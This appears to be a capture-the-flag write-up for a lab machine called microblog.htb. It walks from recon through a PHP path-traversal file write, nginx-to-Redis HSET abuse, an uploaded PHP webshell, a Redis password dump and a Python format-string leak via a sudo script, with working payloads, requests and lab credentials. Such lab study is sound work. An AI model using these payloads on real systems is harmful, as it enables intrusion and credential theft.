## Rustscan

```Bash
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 63 OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 c397ce837d255d5dedb545cdf20b054f (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC58JQV36v8AqpQB6tJC5upH5YdXw4LMaUJ4Exx+H6PjPZDab5MSx7Zm1oA1DWewM8tmU8fcprIxykYA8Z66Sd5ll/M1WntYO1b3LxxA0kI9F3yXQU+D2LMV6dGsqalJ80WWYcowlt3hZie6gnz4qEDj7ijCFi5h8K4R2rKtA16sH4FC9EQQU7qgN4WkE7uJSJS/6tWREtV/PspxsiMSBhUE0BreHurM6eaTZGa0VHOyNpbsZ3KXDro0fIOlfovRJVdAwWXF740M+X3aVngS9p1+XrnsVIqcL9T7GdU6H2Tyl5JvnGLdOr2Etd9NW41f+g+RYl7QY6WYbX+30racRmcTUtH4DODyeDXazi6fRUiXBI8pXkD3oLMBSxXsbeGT8Ja3LECPTybIl/jH3KRfl46P7TIUYZ2kqTZqxJ1B6klyZY+woh24UPDrZu/rW9JMaBz2tg97tAiLR8pLZxLrpVH7YmV8vXk2Sgo1rEuqKhBAK98bQuAsbocbjiyrKYAACc=
|   256 b3aa30352b997d20feb6758840a517c1 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBAxL4FuxiK0hKkwexmffoZfwAs+0TzHjqgv3sbokWQzlt+YGLBXHmGuLjgjfi9Ir49zbxEL6iAOv8/Mj8hUPQVk=
|   256 fab37d6e1abcd14b68edd6e8976727d7 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIK9eUks4+f4DtePOKRJYzDggTf1cOpMhtAxXHGSqr5ng
80/tcp   open  http    syn-ack ttl 63 nginx 1.18.0
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: nginx/1.18.0
| http-methods: 
|_  Supported Methods: GET HEAD
3000/tcp open  http    syn-ack ttl 63 nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Did not follow redirect to http://microblog.htb:3000/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
```

* * *

## SSH - Port 22

As usual we will skip the port 22(SSH) for now since we haven´t any credentials for now and as usual Bruteforce is not the way to go in these challenges.

I will come back when I find some credentials but for now I will move forward.

* * *

## HTTP - Port 80

So far from our initial Rustscan enmeration we found nothing important on HTTP service and seems like nothing is hosted on standard HTTP server:



To be on the safe side I decided to run Webdirs  fuzzing anyway but as expected nothing showed up.

Then running Subdomain fuzzing and surprisingly 2 extra subdomains showed up:

```Bash
└─# ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt  -u 'http://microblog.htb/' -H 'HOST:FUZZ.microblog.htb'

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://microblog.htb/
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt
 :: Header           : Host: FUZZ.microblog.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

[Status: 200, Size: 3976, Words: 899, Lines: 84, Duration: 40ms]
    * FUZZ: app

[Status: 200, Size: 3732, Words: 630, Lines: 43, Duration: 36ms]
    * FUZZ: sunny

:: Progress: [19966/19966] :: Job [1/1] :: 497 req/sec :: Duration: [0:00:17] :: Errors: 0 ::
```

I will move to the last remaining open service and eventually come back as soon I have more informations about those websites.

* * *

## GITea - Port 3000

Checking in port 3000 seems like it's a Gitea server istance:



With version:


And so far no apparent CVE out there... But checking on public repositories seems like it's a repo from the app.microblog.htb application:



This may be an indication on where to concentrate ourself and see how can we get a RCE!

Ok we have the backend used by the website:



So far I will leave this in pending and see later if I need to assest more from the source code..

* * *

## Foothold

Running a Dirsearch of Sunny subdomain website:

```Bash
Target: http://sunny.microblog.htb/

[22:14:07] Starting: 
[22:14:20] 403 -  555B  - /content/
[22:14:20] 301 -  169B  - /content  ->  http://sunny.microblog.htb/content/
[22:14:21] 301 -  169B  - /edit  ->  http://sunny.microblog.htb/edit/
[22:14:23] 403 -  555B  - /images/
[22:14:23] 301 -  169B  - /images  ->  http://sunny.microblog.htb/images/
[22:14:23] 200 -    4KB - /index.php

Task Completed
```

* * *

I don't think we have more to see on this sunny website, so far I will move to APP website.

I will start by registering a dummy account and then try to login to the website:



So far i tried to play around on the website and seems like we can choose a subdomain, add it, website will add in to nginx and edit it's config, that's all. So I went back on code on Gitea and found this:


This is invoked during registering process on App website,and I'm meaning that pro user, seems like if we register with "pro" as username we may be able to see something hidden??

I'm still wandering on the Repository and found this:



Wondering if maybe could be come passwords?? But then I realized are names of files that contain text for the sunny website...

Seems like we have to find a way on how to register a pro user:



Now I will try to play around with register flag and see if I can register an user as a pro:

```Bash
POST /register/index.php HTTP/1.1
Host: app.microblog.htb
Content-Length: 68
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://app.microblog.htb
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://app.microblog.htb/register/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: username=im2j0c4lft9il1jlij82dogioi
Connection: close

first-name=Yo&last-name=vecio&username=yovecio&password=Coglione1%21&pro=true
```

But even this didn't work as expected, then playing around on creating new subdomains I forgot that when I add a new domain I have to add that domain to my local hosts file otherwise my client wouldn't understand how to read that test site...(that's why I always got error when I was trying to edit a site...)

So now I will try again to add a dummy account, add a dummy site(with host added to my hosts file) and lastly see if I can finally edit it.

And as expected now it works, good!



Now I need to check those h1 and txt and see how I can exploit them baby! Now here I checked for tips and apparently our first Foothold is about LFI and mostly the solutions is in the Sunny source code, see the Edit function:

```Bash
//sunny/edit/index.php

//add header
if (isset($_POST['header']) && isset($_POST['id'])) {
    chdir(getcwd() . "/../content");
    $html = "<div class = \"blog-h1 blue-fill\"><b>{$_POST['header']}</b></div>";
    $post_file = fopen("{$_POST['id']}", "w");
    fwrite($post_file, $html);
    fclose($post_file);
    $order_file = fopen("order.txt", "a");
    fwrite($order_file, $_POST['id'] . "\n");  
    fclose($order_file);
    header("Location: /edit?message=Section added!&status=success");
}

//add text
if (isset($_POST['txt']) && isset($_POST['id'])) {
    chdir(getcwd() . "/../content");
    $txt_nl = nl2br($_POST['txt']);
    $html = "<div class = \"blog-text\">{$txt_nl}</div>";
    $post_file = fopen("{$_POST['id']}", "w");
    fwrite($post_file, $html);
    fclose($post_file);
    $order_file = fopen("order.txt", "a");
    fwrite($order_file, $_POST['id'] . "\n");  
    fclose($order_file);
    header("Location: /edit?message=Section added!&status=success");
}
```

From this code basically in both h1 and txt add function the id value is susceptible to LFI. When i tried to exploit the name,txt value didn't worked out:



But by editing the id instead(ex: on the TXT field we can read some files):





From here can we see that we have root, cooper and git username that allow bash access, I guess we will be bash on first RCE and the exploit flow will be something like: GIT -> Cooper -> Root.

Now I will start our enumeration and try to squeeze as much as possible from this LFI:

- /proc/self/cmdline


- /proc/self/environ: nothing
- /etc/nginx/nginx.conf:



- /etc/nginx/sites-enabled/default:



From the last one we could see that the base path for Website should be /var/www/html/app and /var/www/microblog/app and we have some other subdomains http://css.microbucket.htb/ and http://js.microbucket.htb/

Apparently those microbucket* domains are not reachable from the inside so I guess I have to continue look for in the files...

Now here I was lost and I decided to check for tips again and apparently there is a issue in the Nginx config file: https://labs.detectify.com/2021/02/18/middleware-middleware-everywhere-and-lots-of-misconfigurations-to-fix/

Basically that microbucket part uses regex and it can be exploited!

What we need to do is to elevate ourself to Pro user so we can upload our shell on the website and then run some RCE! Since this machine is gone and I won't be able to fix it by myself that's good to learn something about it... The guide I linked shows exactly what we have right now:



So first going back to Gitea we can see the local path of the Redis socket, and the name of the key that set's users as pro true/false:



Now before we can ship our command we have to under stand how that HSET function in redis works: https://redis.io/commands/hset/



Following the Redis documentation we can assume that:

```Text
//Original code from /register:
 $redis->HSET(trim($_POST['username']), "pro", "false"); //not ready yet, license keys coming soon
 
 //Command structure
 HSET key field value [field value ...]
 
 //Explanations 
 trim($_POST['username']) = This is the key
 "pro" = this is the field
 "false" = this is the field value
```

And knowing this we should be able now to exploit the Nginx proxy pass and rewrite the Redis pro key for our user, and payload should be something similar: http://microblog.htb/static/unix:/var/run/redis/redis.sock:yovecio "pro" "true"

(where : key field value = yovecio pro true)   -  This will add true to my user following the HSET command structure...

Let's try it:

- First I will recreate ny user and add my subdomain (webserver clueanup stuff after some minutes circa 5



- Now should be enought to send a CURL POST with our formed payload (check that payload is URL encoded for quotes and spaces):
    
    ```Bash
    ┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads]
    └─# curl -X POST 'http://microblog.htb/static/unix:/var/run/redis/redis.sock:yovecio%20%22pro%22%20%22true%22'
    <html>
    <head><title>502 Bad Gateway</title></head>
    <body>
    <center><h1>502 Bad Gateway</h1></center>
    <hr><center>nginx/1.18.0</center>
    </body>
    </html>
    ```
    
- But i'm still normal user:
    


Ok after several try and some help from users I made it working by using this Payload:

```Bash
┌──(root㉿kali-linux)-[/home/millycash]
└─# curl -X "HSET" http://microblog.htb/static/unix:%2Fvar%2Frun%2Fredis%2Fredis.sock:yovecio%20pro%20true%20/xxx
<html>
<head><title>502 Bad Gateway</title></head>
<body>
<center><h1>502 Bad Gateway</h1></center>
<hr><center>nginx/1.18.0</center>
</body>
</html>
```

And this gave me pro user:


Basically I was using everything right and:

- /var/run/redis/redis.sock had to be URL encoded (example from URL) 
    
- The Redis payload had to finish with %20(space) 
    
- But here was still not working and the key was to finish the payload with /something as described from 
    
- And using example /xxx it worked out
    
    ```Bash
    yovecio%20pro%20true%20/xxx
    ```
    

Here I tried to upload a webshell to Header, but the code wasn't executing:



Then I remember people telling me that key to make it to first RCE was something about LFI that had both R+W permissions and then I got the idea... basically first time I found out about the LFI the ID was the path to the file and txt was it value, so what if we try try to set id poinint to our blog ex yovecio.microblog.htb/uploads and then our file .php.

We know the upload paths from a dummy png file upload:


And the path:



Now we know that our webshell will be stored somewhere in: http://yovecio.microblog.htb/uploads/webshell.php

Let's see If I'm right:

- First we create a user, login
    
- We upgrade to pro
    
- Add a dummy site
    
- Then we intercept the header add with burp 
    
- And lastly(be fast!) we need to form the payload and header is supposed to be the php webshell source code and the id is going to be the path of our script. And to se exaclty were it gets saved we have to go back again to Gitea and more specifically at AddSite:
    
    ```Php
    function addSite($site_name) {
        if(isset($_SESSION['username'])) {
            //check if site already exists
            $scan = glob('/var/www/microblog/*', GLOB_ONLYDIR);
            $taken_sites = array();
            foreach($scan as $site) {
                array_push($taken_sites, substr($site, strrpos($site, '/') + 1));
            }
            if(in_array($site_name, $taken_sites)) {
                header("Location: /dashboard?message=Sorry, that site has already been taken&status=fail");
                exit;
            }
            $redis = new Redis();
            $redis->connect('/var/run/redis/redis.sock');
            $redis->LPUSH($_SESSION['username'] . ":sites", $site_name);
            chdir(getcwd() . "/../../../");
            system("chmod +w microblog");
            chdir(getcwd() . "/microblog/");
            if(!is_dir($site_name)) {
                mkdir($site_name, 0700);
            }
            system("cp -r /var/www/microblog-template/* /var/www/microblog/" . $site_name);
            if(is_dir($site_name)) {
                chdir(getcwd() . "/" . $site_name);
            }
            system("chmod +w content");
            chdir(getcwd() . "/../");
            system("chmod 500 " . $site_name);
            chdir(getcwd() . "/../");
            system("chmod -w microblog");
            header("Location: /dashboard?message=Site added successfully!&status=success");
        }
        else {
            header("Location: /dashboard?message=Site not added, authentication failed&status=fail");
        }
    ```
    

As we see here our website should be somewhere /var/www/html/microblog/yovecio

And uploads under: /var/www/html/microblog/yovecio/uploads/xxxxx

```Php
//add image
if (isset($_FILES['image']) && isset($_POST['id'])) {
    if(isPro() === "false") {
        print_r("Pro subscription required to upload images");
        header("Location: /edit?message=Pro subscription required&status=fail");
        exit();
    }
    $image = new Bulletproof\Image($_FILES);
    $image->setLocation(getcwd() . "/../uploads");
    $image->setSize(100, 3000000);
    $image->setMime(array('png'));

    if($image["image"]) {
        $upload = $image->upload();

        if($upload) {
            $upload_path = "/uploads/" . $upload->getName() . ".png";
            $html = "<div class = \"blog-image\"></div>";
            chdir(getcwd() . "/../content");
            $post_file = fopen("{$_POST['id']}", "w");
            fwrite($post_file, $html);
            fclose($post_file);
            $order_file = fopen("order.txt", "a");
            fwrite($order_file, $_POST['id'] . "\n");  
            fclose($order_file);
            header("Location: /edit?message=Image uploaded successfully&status=success");
        }
        else {
            header("Location: /edit?message=Image upload failed&status=fail");
        }
    }
}
```

Here I tried but it haven't worked by giving the full path to /var /www/xxxx

Then suggestion is to use id same as :

```Php
$image = new Bulletproof\Image($_FILES);
    $image->setLocation(getcwd() . "/../uploads");
    $image->setSize(100, 3000000);
    $image->setMime(array('png'));
```

And seems like it's working:

```Bash
POST /edit/index.php HTTP/1.1
Host: yovecio.microblog.htb
Content-Length: 346
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://yovecio.microblog.htb
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://yovecio.microblog.htb/edit/?cmd=id
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: username=5c94qdcn1q5kabm2bocaibqfum
Connection: close

id=../uploads/shell.php&header=<html>
<body>
<form+method="GET"+name="<?php+echo+basename($_SERVER['PHP_SELF']);+?>">
<input+type="TEXT"+name="cmd"+autofocus+id="cmd"+size="80">
<input+type="SUBMIT"+value="Execute">
</form>
<pre>
<?php
++++if(isset($_GET['cmd']))
++++{
++++++++system($_GET['cmd']);
++++}
?>
</pre>
</body>
</html>
```

Good we have the shell:


Now we should be able to invoke a RCE by running some commands direct on the host.



And we have our first shell baby!

```Bash
┌──(root㉿kali-linux)-[/home/millycash/Downloads]
└─# nc -lvnp 5555
listening on [any] 5555 ...
connect to [10.10.14.10] from (UNKNOWN) [10.10.11.213] 44300
/bin/sh: 0: can't access tty; job control turned off
$
```

* * *

## Road to Local.txt:

Now at first login we are like www-data and local is under cooper.

We don't have access there and except cooper we have git as well, I will try to run linpeas thru but I have a feeling we can read the DB and dump alll the keys from it!

let's see if we can see something from Redis: seems like I can't login from default port.

I will run linpeas and check what can I get before moving to redis:

```Bash
╔══════════╣ Sudo version
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-version
Sudo version 1.9.5p2

╔══════════╣ CVEs Check
Potentially Vulnerable to CVE-2022-0847
Potentially Vulnerable to CVE-2022-2588

git          616  0.1  5.2 1593568 208976 ?      Ssl  02:09   0:10 /usr/local/bin/gitea web --config /etc/gitea/app.ini

/run/redis/redis.sock
  └─(Read Write)

╔══════════╣ Active Ports
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#open-ports
tcp        0      0 0.0.0.0:3000            0.0.0.0:*               LISTEN      646/nginx: worker p 
tcp        0      0 127.0.0.1:9000          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      646/nginx: worker p 
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::3000                 :::*                    LISTEN      646/nginx: worker p 
tcp6       0      0 :::80                   :::*                    LISTEN      646/nginx: worker p 
tcp6       0      0 :::22                   :::*                    LISTEN      -      

╔══════════╣ Users with console
cooper:x:1000:1000::/home/cooper:/bin/bash
git:x:104:111:Git Version Control,,,:/home/git:/bin/bash
root:x:0:0:root:/root:/bin/bash

╔══════════╣ Analyzing Github Files (limit 70)
drwxr-xr-x 8 root root 4096 Apr 18 23:20 /var/www/.git

/var/www/.git
/var/www/.git/FETCH_HEAD
/var/www/.git/branches
/var/www/.git/HEAD
/var/www/.git/config
```

Ok seems like Redis we wont be able to open it but that git config may unveil us some creds...

```Bash
ww-data@format:~/.git$ ls -al
ls -al
total 60
drwxr-xr-x  8 root root 4096 Apr 18 23:20 .
drwxr-xr-x  8 root root 4096 Apr 18 23:20 ..
-rw-r--r--  1 root root   39 Dec 13 22:28 COMMIT_EDITMSG
-rw-r--r--  1 root root  102 Nov  5  2022 FETCH_HEAD
-rw-r--r--  1 root root   21 Nov  4  2022 HEAD
-rw-r--r--  1 root root   41 Nov  5  2022 ORIG_HEAD
drwxr-xr-x  2 root root 4096 Apr 18 23:20 branches
-rw-r--r--  1 root root  263 Nov  5  2022 config
-rw-r--r--  1 root root   73 Nov  4  2022 description
drwxr-xr-x  2 root root 4096 Apr 18 23:20 hooks
-rw-r--r--  1 root root 3300 Dec 13 22:28 index
drwxr-xr-x  2 root root 4096 Apr 18 23:20 info
drwxr-xr-x  3 root root 4096 Apr 18 23:20 logs
drwxr-xr-x 58 root root 4096 Apr 18 23:20 objects
drwxr-xr-x  5 root root 4096 Apr 18 23:20 refs
www-data@format:~/.git$ cat config
cat config
[core]
    repositoryformatversion = 0
    filemode = true
    bare = false
    logallrefupdates = true
[remote "origin"]
    url = http://localhost:3000/cooper/microblog.git
    fetch = +refs/heads/*:refs/remotes/origin/*
[branch "main"]
    remote = origin
    merge = refs/heads/main
www-data@format:~/.git$
```

* * *

Ok seems like I can't get the gitea user from it's config but I forgot to check nginx available websites:

```Bash
www-data@format:/etc/nginx/sites-available$ ls -al
ls -al
total 20
drwxr-xr-x 2 root root 4096 Apr 18 22:22 .
drwxr-xr-x 8 root root 4096 Apr 18 22:22 ..
-rw-r--r-- 1 root root 2582 Dec 13 22:20 default
-rw-r--r-- 1 root root 2674 Apr 11 22:40 microblog.htb
-rw-r--r-- 1 root root 1722 Dec 13 22:21 microbucket.htb
www-data@format:/etc/nginx/sites-available$ cat microbucket.htb
cat microbucket.htb
##


    root /var/www/microbucket/$subdomain;

    # Add index.php to the list if you are using PHP
    index index.html index.htm index.nginx-debian.html;

    server_name ~^(?P<subdomain>.+)\.microbucket\.htb$ ;

    location / {
        try_files $uri $uri/ =404;
    }
```

Since nothing worked I went back to the idea of redis and first i checked how to see all socks: https://book.hacktricks.xyz/linux-hardening/privilege-escalation#enumerate-unix-sockets

```Bash
www-data@format:/tmp$ netstat -a -p --unix
netstat -a -p --unix
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active UNIX domain sockets (servers and established)
Proto RefCnt Flags       Type       State         I-Node   PID/Program name     Path
unix  2      [ ACC ]     STREAM     LISTENING     11177    -                    /run/systemd/private
unix  2      [ ACC ]     STREAM     LISTENING     11179    -                    /run/systemd/userdb/io.systemd.DynamicUser
unix  2      [ ACC ]     STREAM     LISTENING     11180    -                    /run/systemd/io.system.ManagedOOM
unix  2      [ ]         DGRAM                    11190    -                    /run/systemd/journal/syslog
unix  2      [ ACC ]     STREAM     LISTENING     11192    -                    /run/systemd/fsck.progress
unix  7      [ ]         DGRAM                    11196    -                    /run/systemd/journal/dev-log
unix  5      [ ]         DGRAM                    11198    -                    /run/systemd/journal/socket
unix  2      [ ACC ]     STREAM     LISTENING     11200    -                    /run/systemd/journal/stdout
unix  2      [ ACC ]     SEQPACKET  LISTENING     11202    -                    /run/udev/control
unix  2      [ ACC ]     STREAM     LISTENING     10225    -                    /var/run/vmware/guestServicePipe
unix  2      [ ACC ]     STREAM     LISTENING     12022    -                    /run/dbus/system_bus_socket
unix  2      [ ACC ]     STREAM     LISTENING     9710     -                    /run/systemd/journal/io.systemd.journal
unix  2      [ ACC ]     STREAM     LISTENING     12648    -                    /var/run/redis/redis.sock
```

Now that we know is a stream type Linux socket, we should be able to communicate with it with: https://book.hacktricks.xyz/linux-hardening/privilege-escalation#raw-connection

```Bash
www-data@format:/tmp$ nc -U /var/run/redis/redis.sock
nc -U /var/run/redis/redis.sock

//running info to see if we can see something
info
```



Ok now that it's working let's try to dump all keys(aka data):

```Bash
# Keyspace
INFO keyspace
$44
# Keyspace
db0:keys=2,expires=0,avg_ttl=0
```

And to dump the DB:



```bash
//Dumping all the keys in redis

select 0
select 0
+OK
KEYS * 
KEYS * 
*2
$13
cooper.dooper
$19
cooper.dooper:sites
```

But then I remembered that they were using HGET and HSET to work with values and:

```Bash
//Knowing that the default user was Cooper and hist real name was cooper.dooper
//I could dump hist password with MGET
//MGET key field
//And knowing from before that key=username and field=Username or Password or Pro or F.name or L.name


HGET cooper.dooper password
HGET cooper.dooper password
$18
zooperdoopercooper
```

Nice we have his password baby!

Leggenda: 

Now we can ssh as cooper and grab his flag!

```Bash
┌──(root㉿kali-linux)-[/home/millycash/Downloads]
└─# ssh cooper@microblog.htb
cooper@microblog.htb's password: 
Linux format 5.10.0-22-amd64 #1 SMP Debian 5.10.178-3 (2023-04-22) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
cooper@format:~$ ls
user.txt
cooper@format:~$ cat user.txt
```

* * *

## Road to Root.txt

Now as usual easiest is to check for sudo rights:

```Bash
cooper@format:~$ sudo -l
[sudo] password for cooper: 
Matching Defaults entries for cooper on format:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User cooper may run the following commands on format:
    (root) /usr/bin/license
    
    
 
 cooper@format:~$ sudo -u root /usr/bin/license
usage: license [-h] (-p username | -d username | -c license_key)
license: error: one of the arguments -p/--provision -d/--deprovision -c/--check is required
```

Ok seems like this license is a custom made binary, and it may be joined to that pro options that was disabled cause it was missing license key...

```Bash
cooper@format:~$ file /usr/bin/license
/usr/bin/license: Python script, ASCII text executable
cooper@format:~$ 
cooper@format:~$ 
cooper@format:~$ cat /usr/bin/license
#!/usr/bin/python3

import base64
from cryptography.hazmat.backends import default_backend
from cryptography.hazmat.primitives import hashes
from cryptography.hazmat.primitives.kdf.pbkdf2 import PBKDF2HMAC
from cryptography.fernet import Fernet
import random
import string
from datetime import date
import redis
import argparse
import os
import sys

class License():
    def __init__(self):
        chars = string.ascii_letters + string.digits + string.punctuation
        self.license = ''.join(random.choice(chars) for i in range(40))
        self.created = date.today()

if os.geteuid() != 0:
    print("")
    print("Microblog license key manager can only be run as root")
    print("")
    sys.exit()

parser = argparse.ArgumentParser(description='Microblog license key manager')
group = parser.add_mutually_exclusive_group(required=True)
group.add_argument('-p', '--provision', help='Provision license key for specified user', metavar='username')
group.add_argument('-d', '--deprovision', help='Deprovision license key for specified user', metavar='username')
group.add_argument('-c', '--check', help='Check if specified license key is valid', metavar='license_key')
args = parser.parse_args()

r = redis.Redis(unix_socket_path='/var/run/redis/redis.sock')

secret = [line.strip() for line in open("/root/license/secret")][0]
secret_encoded = secret.encode()
salt = b'microblogsalt123'
kdf = PBKDF2HMAC(algorithm=hashes.SHA256(),length=32,salt=salt,iterations=100000,backend=default_backend())
encryption_key = base64.urlsafe_b64encode(kdf.derive(secret_encoded))

f = Fernet(encryption_key)
l = License()

#provision
if(args.provision):
    user_profile = r.hgetall(args.provision)
    if not user_profile:
        print("")
        print("User does not exist. Please provide valid username.")
        print("")
        sys.exit()
    existing_keys = open("/root/license/keys", "r")
    all_keys = existing_keys.readlines()
    for user_key in all_keys:
        if(user_key.split(":")[0] == args.provision):
            print("")
            print("License key has already been provisioned for this user")
            print("")
            sys.exit()
    prefix = "microblog"
    username = r.hget(args.provision, "username").decode()
    firstlast = r.hget(args.provision, "first-name").decode() + r.hget(args.provision, "last-name").decode()
    license_key = (prefix + username + "{license.license}" + firstlast).format(license=l)
    print("")
    print("Plaintext license key:")
    print("------------------------------------------------------")
    print(license_key)
    print("")
    license_key_encoded = license_key.encode()
    license_key_encrypted = f.encrypt(license_key_encoded)
    print("Encrypted license key (distribute to customer):")
    print("------------------------------------------------------")
    print(license_key_encrypted.decode())
    print("")
    with open("/root/license/keys", "a") as license_keys_file:
        license_keys_file.write(args.provision + ":" + license_key_encrypted.decode() + "\n")

#deprovision
if(args.deprovision):
    print("")
    print("License key deprovisioning coming soon")
    print("")
    sys.exit()

#check
if(args.check):
    print("")
    try:
        license_key_decrypted = f.decrypt(args.check.encode())
        print("License key valid! Decrypted value:")
        print("------------------------------------------------------")
        print(license_key_decrypted.decode())
    except:
        print("License key invalid")
    print("")
```

Ok It was only a script python and not a complied binary, I will check again tomorrow at work on how to exploit this!

Now new day new challenges... We know by simply running as sudo root the script is expecting at least one parameter that can be :

```Bash
license: error: one of the arguments -p/--provision -d/--deprovision -c/--check is required
```

I guess we should check now the python source code and see what can we do to get to root, either one of those functions...

Ok after a short analysis seems like this is about Python format strings exploit and about the function is either check or provision that have to be exploited since deprovision will not give you anything back since is still not implemented...

Here is some of the code I played around:

```Bash
cooper@format:~$ sudo -u root  /usr/bin/license -p "cooper"

User does not exist. Please provide valid username.

cooper@format:~$ sudo -u root  /usr/bin/license -p "cooper.dooper"

License key has already been provisioned for this user

cooper@format:~$ sudo -u root  /usr/bin/license -p "yovecio"

Plaintext license key:
------------------------------------------------------
microblogyovecioo8(Hcs/ouPQ-"NiIsdk^q\L%F$6.QUWWO1IIuwsbYoVecio

Encrypted license key (distribute to customer):
------------------------------------------------------
gAAAAABkYzgUoyM8B2CoEOU4KjA3Z_Ls4R-AibPyVOr6L99-cs-nZQKrtwZK8GXBwK9nTyKTjD8tBWgyrZPEsGr9_baXIMc1es5OMIio_UtkHkm-c48a81wc7OM6xzecJM3r9_nLkjl3zZHP7_5oV8U-Yp1uJMmQRQ==

cooper@format:~$ sudo -u root  /usr/bin/license -c "yovecio"

License key invalid

cooper@format:~$
cooper@format:~$
cooper@format:~$
cooper@format:~$ sudo -u root  /usr/bin/license -c "gAAAAABkYzgUoyM8B2CoEOU4KjA3Z_Ls4R-AibPyVOr6L99-cs-nZQKrtwZK8GXBwK9nTyKTjD8tBWgyrZPEsGr9_baXIMc1es5OMIio_UtkHkm-c48a81wc7OM6xzecJM3r9_nLkjl3zZHP7_5oV8U-Yp1uJMmQRQ=="

License key valid! Decrypted value:
------------------------------------------------------
microblogyovecioo8(Hcs/ouPQ-"NiIsdk^q\L%F$6.QUWWO1IIuwsbYoVecio

cooper@format:~$ sudo -u root  /usr/bin/license -d "yovecio"

License key deprovisioning coming soon

cooper@format:~$
cooper@format:~$
cooper@format:~$
cooper@format:~$ sudo -u root  /usr/bin/license -d "gAAAAABkYzgUoyM8B2CoEOU4KjA3Z_Ls4R-AibPyVOr6L99-cs-nZQKrtwZK8GXBwK9nTyKTjD8tBWgyrZPEsGr9_baXIMc1es5OMIio_UtkHkm-c48a81wc7OM6xzecJM3r9_nLkjl3zZHP7_5oV8U-Yp1uJMmQRQ=="

License key deprovisioning coming soon

cooper@format:~$ sudo -u root  /usr/bin/license -c "gAAAAABkYzgUoyM8B2CoEOU4KjA3Z_Ls4R-AibPyVOr6L99-cs-nZQKrtwZK8GXBwK9nTyKTjD8tBWgyrZPEsGr9_baXIMc1es5OMIio_UtkHkm-c48a81wc7OM6xzecJM3r9_nLkjl3zZHP7_5oV8U-Yp1uJMmQRQ=="

License key valid! Decrypted value:
------------------------------------------------------
microblogyovecioo8(Hcs/ouPQ-"NiIsdk^q\L%F$6.QUWWO1IIuwsbYoVecio
```

So here searching for explanations I stumbled upon this: https://podalirius.net/en/articles/python-format-string-vulnerabilities/

From several test I understood that string to be used was something similar to: 

```Bash
{self.__init__.__globals__}
```

And seems like the faulty format is on this string:

```Python
license_key = (prefix + username + "{license.license}" + firstlast).format(license=l)
```

Then trying to send it to -p or -c always failed cause it was parsing for credential key or real username so I had to check for tips and:

- The solutions is to send this command into Redis username because the Python string formats is on this on the username 
- It will be something similar like this:
    
    ```Bash
    //Create a user so it shows in Redis
    
    //Connect to Redis server
    cooper@format:~$ redis-cli -s /var/run/redis/redis.sock
    
    //Add the payload
    redis /var/run/redis/redis.sock> HSET yovecio username "HSET yovecio username {license.__init__.__globals__[secret_encoded]}"
    (integer) 0
    
    //Check that is saved
    redis /var/run/redis/redis.sock> HGET yovecio username
    "HSET yovecio username {license.__init__.__globals__[secret_encoded]}"
    
    //Exit
    redis /var/run/redis/redis.sock> exit
    ```
    
- From the Python example link: 



As you see it starts with the class name(self in the Person class) and finishes with variable between squared brackets(\[config\]\[API_KEY\]) and for us will be something similar: 

```Python
//Base
 {class.__init__.__globals__[variable]}
 
 //Applied to our code
 {license.__init__.__globals__[secret_encoded]}
```

And lastly by running the provision script on our username yovecio it will read from redis DB the username and string format it:

```Bash
cooper@format:~$ sudo -u root  /usr/bin/license -p "yovecio"

Plaintext license key:
------------------------------------------------------
microblogb'unCR4ckaBL3Pa$$w0rd'ETvrU1~lsLT]4;}!n~A2Sx#Q(<=vzb1|/ORXMo2OYoVecio

Encrypted license key (distribute to customer):
------------------------------------------------------
